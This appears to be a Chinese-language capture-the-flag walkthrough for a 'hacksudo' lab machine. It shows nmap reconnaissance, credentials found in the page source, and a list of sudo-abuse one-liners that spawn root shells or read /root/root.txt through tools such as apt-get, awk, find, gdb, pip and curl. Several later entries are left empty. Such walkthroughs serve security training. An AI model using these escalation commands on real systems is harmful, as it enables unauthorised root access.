





# 目标

Find the **root.txt** flag.

---

# 1.信息收集
## 1.1 主机发现
```shell
nmap -sn --max-rate=10000 192.168.64.0/24
```

靶机的IP地址是`192.168.64.18`

## 1.2 端口扫描
**使用TCP SYN扫描**
```shell
nmap -sS -sV -Pn -p- --max-rate=10000 192.168.64.18 -oA nmap-scan/tcp_syn
nmap -sT -sV -Pn -p- --max-rate=10000 192.168.64.18 -oA nmap-scan/tcp
```



**使用UDP扫描**
```shell
nmap -sU --top-ports=100 -sV -Pn --max-rate=10000 192.168.64.18 -oA nmap-scan/udp
```


**使用nmap默认漏洞脚本扫描**
```shell
nmap -sC -sV -O -p22,80,4200,2 192.168.64.18 -oA nmap-scan/port_vuln
```


## 1.3 浏览器获取信息
**访问：`http://192.168.64.18:80`**

右键查看源码，看到最后直接就有
```
<h3>Username : admin</h3>
<h3>Password : hacksudo</h3>
```
然后直接登陆。
原来这是一个闯关的靶机。🌚

---

# 开始闯关

## Challenge 1
[Introduction of Sudo Abusing](https://leetvilu.blogspot.com/2020/01/linux-privilege-escalation-using-sudo.html)
记不住可以直接去[GTFOBins](https://gtfobins.org/)上面搜。
**/root/root.txt都是：`viluhacker`**
### 1.`apt-get` Abusing
```shell
sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

### 2.`arp` abusing
```shell
sudo arp -v -f /root/root.txt
```

### 3.`awk` Abusing
```shell
sudo /usr/bin/awk 'BEGIN {system("/bin/sh")}'
```
This is an alias of mawk.

### 4.`base32` Abusing
```shell
sudo base32 /root/root.txt | base32 --decode
```

### 5.`base64` Abusing
```shell
sudo /usr/bin/base64 /root/root.txt | base64 --decode
```

### 6.`cat` Abusing
```shell
sudo cat /root/root.txt
```

### 7.`check_log` Abusing
```shell
sudo /usr/bin/check_log -F /path/to/input-file -O /path/to/output-file
```
这个不知道为什么跳过了.🌚

### 8.`check_ssl_cert` Abusing
```shell
echo 'exec /bin/sh 0<&2 1>&2' >/path/to/temp-file
chmod +x /path/to/temp-file
sudo check_ssl_cert --grep-bin /path/to/temp-file -H x
```
这个不知道为什么跳过了.🌚

### 9.`comm` Abusing
```shell
sudo comm /root/root.txt /dev/null
```

### 10.`cp` Abusing
```shell
sudo /usr/bin/cp /root/root.txt /home/user10
cd /home/user10
cat root.txt
```

### 11.`curl` Abusing
```shell
sudo /usr/bin/curl file:///root/root.txt
```

### 12.`cut` Abusing
```shell
sudo /usr/bin/cut -d '' -f1 /root/root.txt
```

### 13.`dash` Abusing
```shell
sudo /usr/bin/dash
```

### 14.`date` Abusing
```shell
sudo /usr/bin/date -f /root/root.txt
```

### 15.`diff` Abusing
```shell
sudo -l
```
```shell
sudo /usr/bin/diff --line-format=%L /dev/null /root/root.txt
```

### 16.`easy_install` Abusing
```shell
echo '...' >setup.py
sudo /usr/bin/easy_install .
```
这个不知道为什么跳过了.🌚

### 17.`find` Abusing
```shell
sudo /usr/bin/find . -exec /bin/sh \; -quit
```

### 18.`ftp` Abusing
```shell
sudo /usr/bin/ftp
ftp > !/bin/sh
```

### 19.`gcc` Abusing
```shell
sudo /usr/bin/gcc -wrapper /bin/sh,-s x
```

### 20.`gdb` Abusing
```shell
sudo /usr/bin/gdb -nx -ex '!/bin/sh' -ex quit
```

### 21.`ip` Abusing
```shell
sudo /usr/bin/ip netns add foo
sudo /usr/bin/ip netns exec foo /bin/sh
sudo /usr/bin/ip netns delete foo
```

### 22.`pip` Abusing
```shell
sudo /usr/bin/pip config --editor '/bin/sh -s' edit
```

### 23.`perl` Abusing
```shell

```

### 24.`socket` Abusing
```shell

```

### 25.`vi` Abusing
```shell

```

### 26.`view` Abusing
```shell

```

### 27.`wget` Abusing
```shell

```

### 28.`watch` Abusing
```shell

```

### 29.`xxd` Abusing
```shell

```

### 30.`zip` Abusing
```shell

```


## Challenge 2


## Challenge 3


